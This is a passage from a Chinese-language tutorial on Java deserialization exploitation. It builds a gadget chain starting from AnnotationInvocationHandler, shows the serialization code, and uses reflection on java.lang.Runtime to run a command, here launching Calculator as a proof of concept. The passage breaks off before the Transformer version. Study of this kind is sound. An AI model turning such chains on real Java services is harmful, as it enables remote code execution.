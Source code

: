 #### [](#238-%E8%BF%9B%E4%B8%80%E6%AD%A5%E5%AE%8C%E5%96%84)2.3.8 进一步完善

通过构造 AnnotationInvocationHandler 类，来创建反序列化利用链的起点，用如下代码将对象序列化：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```java<br>ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>ObjectOutputStream oos = new ObjectOutputStream(barr);<br>oos.writeObject(obj);<br>oos.close();<br>``` |

但是，在经过序列化时，抛出异常：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108271008846.png-water_print](assets/1699411715-707b5696a538ef881f42ad64f61ee92d.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202108271008846.png-water_print")

在本系列的第一部分描述过，`java.lang.Runtime` 这个类没有实现 `Serializable` 接口，无法序列化。因此，需要通过反射来获取当前上下文中的 `java.lang.Runtime` 对象。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```java<br>Method m = Runtime.class.getMethod("getRuntime");<br>Runtime r = (Runtime) m.invoke(null);<br>r.exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");<br>``` |

转换成 Transformer 的写法：
